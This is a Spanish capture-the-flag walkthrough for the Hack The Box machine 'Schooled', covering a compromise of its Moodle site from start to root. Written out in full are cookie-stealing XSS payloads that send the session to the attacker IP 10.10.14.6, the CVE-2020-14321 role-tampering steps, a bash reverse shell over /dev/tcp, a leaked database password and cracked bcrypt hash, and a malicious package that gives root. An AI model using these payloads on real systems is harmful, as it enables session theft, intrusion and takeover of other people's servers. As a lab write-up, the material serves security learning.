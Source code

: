 10.10.10.234 - Schooled
-----------------------

Puertos abiertos: 22(ssh), 80(http)

```console
└─$ whatweb http://10.10.10.234
http://10.10.10.234 [200 OK] Apache[2.4.46], Bootstrap, Email[#,admissions@schooled.htb], HTML5, HTTPServer[FreeBSD][Apache/2.4.46] PHP[7.4.15], Script, Title[Schooled - A new kind of educational institute]
```
La maquina por tanto se llama schooled.htb (modificar el /etc/hosts)

# Web

Hay una seccion de contacto, intento hacer un xss.
La peticion es un /POST a contact.php
Pero por el servidor de python no recibo ninguna peticion.

Hay una serie de usuarios en la web, en vez de copiarlos a mano, tiramos de trucos de bash:
```console
└─$ curl -s http://10.10.10.234/teachers.html | html2text | grep -P "\*\*\* .*?" | sort -u | tr -d "*" > users.txt
# Quitamos algunas lineas como "Contact Details"
```

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.234/FUZZ/
000000536:   200        25 L     68 W       1048 Ch     "css"                                                
000000939:   200        16 L     41 W       522 Ch      "js"                                                 
000000002:   200        55 L     158 W      2440 Ch     "images"                                             
000002757:   200        20 L     53 W       838 Ch      "fonts"    
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u http://schooled.htb
Found: moodle.schooled.htb (Status: 200) [Size: 84]
```
En el directorio /js está todo el codigo fuente, pero no hay nada interesante.
Luego está el subdominio **moodle**.

Me han pedido que me registre -> cucuxii : Cucuxii123@ : cucuxii@student.schooled.htb

Una vez registrado hay una seccion donde puedes subir archivos pero no hay manera de acceder a ellos, simplemente
lo guarda (intenté subir un cmd.php)

En el botón **Site-home** hay cursos disponibles para iniciar, Es de un tal Michael Fillips (uno de los usaurios
que obtuvimos antes). Una vez nos metemos en ese curso, hay una seccion de anuncios

```
Este es un curso al que uno se puede apuntar por su cuenta, para todos los que quieran mis lecciones, que se hagan
un perfil de MoodleNet.
Los que no lo tengan serán borrados, YO ESTARÉ REVISANDO a todos los estudiantes
```
Cuando tenemos a otra persona que va a revisar algo nuestro podemos pensar en ataques XSS (ejemplo robo de cookie)

```console
└─$ sudo python3 -m http.server 80
10.10.10.234 - - [01/Nov/2022 13:22:52] code 404, message File not found
10.10.10.234 - - [01/Nov/2022 13:22:52] "GET /pwned.js HTTP/1.1" 404
```
Nuevo payload -> robo de cookie
```<script>document.location=”http://10.10.14.6/?cookie=” + document.cookie</script>```

No recibimos nada, pero sabemos que este hombre se come todo el javascript que le mandemos
```js
var req1 = new XMLHttpRequest();
req1.open("GET", "http://10.10.14.6/?cookie=" + document.cookie, false);
req1.send();
```
Nos salta esto:
```
10.10.10.234 - - [01/Nov/2022 13:37:22] "GET /?cookie=MoodleSession=u2ocqtkbdqpr7sqg4rf0lq0of7 HTTP/1.1" 200 -
```
Cambiamos nuestra cookie por la suya y ya estamos bajo su perfil.
En el calendario no hay nada interesante y en archivos tampoco. Si miramos su perfil nos da el correo
```phillips_manuel@staff.schooled.htb``` El nuestro era simplemente: **student.schooled.htb**

Si ponemos esto en el */etc/hosts* y accedemos a ```http://staff.schooled.htb```, pero es lo mismo que la 
**schooled.htb** original.

No se que más hacer, en searchsploit hay muchas versiones del moodles, asi que hay que buscar su version.
Si buscamos en google ```moodle RCE teacher``` leyendo resulta que en moodle hay que pasar de profesor a manager.
```moodle privilege escalation from teacher to manaher``` nos da a la vuln **CVE-2020-14321**, acabando en el 
[exploit](https://github.com/HoangKien1020/CVE-2020-14321). Tiene un video de vimeo donde lo explica.

No sabemos quien es el manager, pero tenemos un listado de usaurios y la parte de ver usaurios:  
```http://moodle.schooled.htb/moodle/user/profile.php?id=10``` -> cambiando el id podemos viajar entre usuarios
El 1 correspondiente a 1 no nos lo deja ver. Se supone que es el del manager. Mirando todos los que hay la señora
Lianne_Carter no aparece y en *schooled.htb/teachers.html*, dice que es manager asi que es está a quien hay que 
secuestrarle la sesión.


En el exploit mencionan la ruta ```/enrol/manual/ajax.php``` La ruta nos dice que fatla el parametro id.

Ataque -> en el video hablan de en cursos, (en nuestro caso Matematicas) en la seccion de participantes, darle a
Enroll user y escoger a Lianne, luego interceptar la peticion y cambiar estos parametros 
userlist de 25 a 24 (el id de nuestro Michael) y en role to assign 1, de administrador. 

Una vez hecho esto, la lista permanece intacta pero si añadimos otra vez a Lianne (sin cambiar nada) y nos 
metemos en su perfil, desde la lista, nos saldrá la opción de registranos como ella.

Este ataque se llama MASS ASIGNMENT ATTACK y se suele dar muchas veces en apis, cuando hay una peticion para 
cambiar una cosa, puedes cambiar mas de las que estaba previsto.


En la seccion de Administracion, en Plugins no podemos subir nada.
En la pagina del exploit de antes había una seccion que hablaba de permisos (payload to full permissions).
LO que hay que hacer es irse a Users -> Permissions -> define roles -> Manager -> edit 
Ahi te salen todos los permisos, si le das a save changes interceptando la peticion y pones lo que sale en la web:
```&return=manage&resettype=none&shortname=manager&name=&description=&archetype=manager&contextlevel10=0&n...```
manteniendo la sesskey, podras editar los plugins.

Te pide un zip, pero el repo del exploit también te lo da.
Una vez subido, accedes a la ruta ```http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id```
Y pones el comando para la reverse shell con los & urlencodeados a %26
```bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'``` y netcat ```sudo nc -nlvp 443```

Tenemos una consola, pero no nos deja crear una tty ni hay curl o wget para subir un script de reconocimiento.
```console
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ script /dev/null -c bash
script: tcgetattr/ioctl: Can't assign requested address
```
En la carpeta de moodle se buscan posibles contraseñas: 
```console
[www@Schooled /usr/local/www/apache24/data/moodle]$ grep pass *
config.php:$CFG->dbpass    = 'PlaybookMaster2020';
[www@Schooled /usr/local/www/apache24/data/moodle]$ cat config.php | grep "user"
$CFG->dbuser    = 'moodle';
[www@Schooled /usr/local/www/apache24/data/moodle]$ mysql -u moodle -p 
bash: mysql: command not found
```
Apenas hay ningun programa, miramos el PATH a ver si es un problema suyo.
```console
[www@Schooled /usr/local/www/apache24/data/moodle]$ echo $PATH
/sbin:/bin:/usr/sbin:/usr/bin
[www@Schooled /usr/local/www/apache24/data/moodle]$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
[www@Schooled /usr/local/www/apache24/data/moodle]$ mysql -u moodle -p
PlaybookMaster2020
```
Como no estamos en un tty ha petado (al igual que nano y mas programas)

```console
[www@Schooled /home]$ mysql -umoodle -pPlaybookMaster2020 -e "show databases"
Database
information_schema
moodle
[www@Schooled /home]$ mysql -umoodle -pPlaybookMaster2020 -e "use moodle; show tables" | grep "user"
mdl_user
mdl_user_devices
mdl_user_enrolments
mdl_user_info_category
[www@Schooled /home]$ mysql -umoodle -pPlaybookMaster2020 -e "use moodle; describe mdl_user" | grep -E "pass|name"
username	varchar(100)	NO			
password	varchar(255)	NO
[www@Schooled /home]$ mysql -umoodle -pPlaybookMaster2020 -e "use moodle; select username,password,email from mdl_user"
admin	$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW jamie@staff.schooled.htb
```

Este hash se intenta romper con jhon, pero tarda una eternidad
```
└─$ hashcat --example-hashes | grep "\$2a" -B 2
MODE: 3200
TYPE: bcrypt $2*$, Blowfish (Unix)
HASH: $2a$05$MBCzKhG1KhezLh.0LRa0Kuw12nLJtpHy6DIaU.JAnqJUDYspHC.Ou
└─$ john hash -w=/usr/share/wordlists/rockyou.txt --format=bcrypt
!QAZ2wsx	(admin)
```

```console
jamie@Schooled:/home $ sudo -l 
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

En gfobins nos dicen que con un programa llamado fpm realicemos una serie de comandos, como aqui no está
se hace en la maquina atacante (ya que generan un archivo que luego se puede subir a esta)

```console
└─$ sudo gem install fpm
└─$ TF=$(mktemp -d)
└─$ echo 'chmod u+s /bin/bash' > $TF/x.sh
└─$ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
jamie@Schooled:/tmp $ sudo /usr/sbin/pkg install -y --no-repo-update ./x-1.0.txz
jamie@Schooled:/tmp $ bash -p
[jamie@Schooled /tmp]# whoami
root
```
